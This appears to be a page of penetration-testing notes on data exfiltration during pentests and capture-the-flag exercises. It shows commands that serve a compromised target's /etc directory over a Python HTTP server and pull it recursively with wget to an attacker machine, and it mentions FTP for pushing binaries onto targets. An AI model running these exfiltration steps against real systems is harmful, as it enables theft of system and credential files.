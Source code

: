# Data Exfiltration
In this module I will cover methods, applications, and syntax used for data exfiltration techniques that I have used during penetration testing or capture the flag.
## Python SimpleHTTPServer
If Python (2.x) is installed on the target system, you can simply start the [SimpleHTTPServer](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/) 
using the following command in whatever directory that you wish to share temporarily.
```
www-data@target-system:/etc# python -m SimpleHTTPServer 5432
```
And this will instantly share the files on the target system in `/etc` (as you see that is where I started the service) via HTTP on port `5432`
You can then use `wget` recursivley to pull all files found like so, from the attacker machine,
```
root@attacker-system:~/ctf/target/# wget -r http://(TARGET IP ADDRESS):5432 
```
## Python http.server
In Python 3, `SimpleHTTPServer` was merged with `http.server` and you can perform the same as we did in the previous version listing above with the syntax of,
```
www-data@target-system:~# python -m http.server 5432
```
# Data Infiltration
## FTP
You can use FTP for data infiltration on any OS system if you happen to find it installed on a target machine. Check out [/Post Exploitation/ftp.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/ftp.md) for more information on how to infiltrate data and binaries to a target system using FTP.

